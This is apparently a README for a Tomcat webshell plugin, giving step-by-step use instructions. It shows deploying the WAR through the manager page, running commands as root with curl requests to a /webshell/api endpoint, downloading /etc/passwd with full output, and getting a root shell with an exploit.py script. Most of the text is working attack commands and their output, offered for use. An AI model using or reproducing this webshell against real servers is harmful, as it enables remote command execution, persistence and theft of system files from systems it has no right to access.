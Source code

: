 ## Guide

**Requirements**: You need to have the credentials of an high privilege account of the Apache Tomcat server.

### Step 1: Access the Tomcat manager and upload the webshell plugin

First of all, you will need to access the Apache Tomcat `/manager` page at http://127.0.0.1:10080/manager/html, and connect to it with an high privilege account of the Apache Tomcat server.

![](a.png)

Then choose the WAR file of the webshell plugin and click on "Deploy":

![](b.png)

And the application is deployed:

![](c.png)

### Step 2.1: Executing commands

You can now execute commands by sending a GET or POST request to http://127.0.0.1:10080/webshell/api with `action=exec&cmd=id`:

```sh
$ curl -X POST 'http://127.0.0.1:10080/webshell/api' --data "action=exec&cmd=id"
{"stdout":"uid=0(root) gid=0(root) groups=0(root)\n","stderr":"","exec":["/bin/bash","-c","id"]}
```

You can also access it by a GET request from a browser:

![](d.png)

### Step 2.2: Downloading files

You can also download remote files by sending a GET or POST request to http://127.0.0.1:10080/webshell/api with `action=download&cmd=/etc/passwd`:

```sh
$ curl -X POST 'http://127.0.0.1:10080/webshell/api' --data "action=download&path=/etc/passwd" -o-
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

### Step 3 : Get Shell
```bash
$ python3 exploit.py -t target-IP
[foothold-shell]> whoami
uid=0(root) gid=0(root) groups=0(root)
```
